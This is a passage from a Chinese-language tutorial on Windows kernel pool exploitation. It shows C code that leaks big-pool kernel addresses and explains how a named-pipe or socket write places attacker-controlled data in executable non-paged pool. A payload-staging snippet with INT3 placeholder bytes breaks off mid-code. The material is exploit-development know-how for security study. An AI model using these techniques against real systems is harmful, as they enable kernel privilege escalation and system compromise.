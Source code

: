 ```
    printf("%s0x%p\t0x%lx\t%c%c%c%c\n",
            bigPoolInfo->AllocatedInfo[i].NonPaged == 1 ?
            "Nonpaged " : "Paged    ",
            bigPoolInfo->AllocatedInfo[i].VirtualAddress,
            bigPoolInfo->AllocatedInfo[i].SizeInBytes,
            bigPoolInfo->AllocatedInfo[i].Tag[0],
            bigPoolInfo->AllocatedInfo[i].Tag[1],
            bigPoolInfo->AllocatedInfo[i].Tag[2],
            bigPoolInfo->AllocatedInfo[i].Tag[3]);
}
 
Cleanup:
if (bigPoolInfo != NULL)
{
    RtlFreeHeap(RtlGetProcessHeap(), 0, bigPoolInfo);
}

```

0x03 池控制
========

* * *

很明显，能够读取到这些内核态内存地址是非常有用的，但仅仅内存块地址可读还不够，那么如何才能进一步做到控制内存块中的数据呢？ 你会注意到前面讲到的技术中，有几种是可以令用户态下的攻击者分配内核对象的（如，APC reserve对象），这类的内核对象有几个域是用户可控的，并且有一个用于获取内核态内存地址的API函数。我们这里基本上也是要做同样的事情，但是不仅仅是控制内核对象的几个域，我们的目标是找到一个可以完全控制内核对象所有数据的用户API，且需要该API调用时能够触发一个“大池”分配。

这种寻找并非如听起来那么难，任何时候一个内核态元素的空间分配超过0X01中所述大小限度（大于一个内存页，即4K左右）时，“大池”分配就会被触发。因此，这个问题的难度就降低为寻找一个可以造成内核态空间分配超过4K的用户态API，且分配的数据也得是可控的。而因为Windows XP SP2以后版本的操作系统被强制内核空间不可执行，所以这种空间分配也必须要能产生可执行的内存才能符合我们的要求。

（也就是说这样的寻找必须满足三个条件：触发“大池”分配、数据可控、分配的空间可执行）

怎样能满足这样的条件……呃，两个很简单的方法会立即出现在你脑中：

```
创建一个本地Socket套接字并监听，用另外一个线程连接该套接字，然后发出一个写操作（写的数据要超过4K），但不要读。这就将导致WinSock的辅助功能驱动（AFD.SYS）在内核态下为Socket数据分配内存地址，该驱动也是著名的另一个“歇菜的”驱动。由于Windows网络栈函数都处于DISPATCH_LEVEL(IRQL 2)层，是无法分页的，AFD会触发一个非分页的内存块分配，而这一条对我们来说尤其有用！因为除了Windows 8及更高版本外，其他的Windows平台下非分页内存都是可执行的！

创建一个命名管道，然后发出一个写操作（同样数据大于4K），且不要读。这也将导致命名管道文件系统（NPFS.SYS）为管道数据分配一块非分页的内存块。（原因同样是因为NPFS缓冲区操作位于DISPATCH_LEVEL）。

```

总体上说，第二种方法是更简单的，只需要几行代码就可以完成，并且与Socket操作相比管道操作更加隐蔽。需要着重指出的是NPFS会在我们自己的缓冲区前面加上一个包含其自身内联头部的前缀，该前缀被称为DATA_ENTRY。NPFS头部的大小会随版本不同而略有差异（XP-、2003、Windows 8+各有不同）。

我已经找到一种最省力的方法来实现偏移的处理，可以通过在用户态缓冲区中安排好相应的偏移，而省去考虑最终内核态载荷头部的偏移问题。记住一点，这里所谈到的技术其关键是分配一个大于一页的内存，以触发“大池”分配。

下面这段小程序已经完善地考虑了上述的所有问题和需求，执行后能够产生我们预计的效果。

```
UCHAR payLoad[PAGE_SIZE - 0x1C + 44];
 
//
// Fill the first page with 0x41414141, and the next page
// with INT3's (simulating our payload). On x86 Windows 7
// the size of a DATA_ENTRY is 28 bytes (0x1C).
//
RtlFillMemory(payLoad,  PAGE_SIZE - 0x1C,     0x41);
RtlFillMemory(payLoad + PAGE_SIZE - 0x1C, 44, 0xCC);
 
//
// Write the data into the kernel
//
res = CreatePipe(&readPipe,
```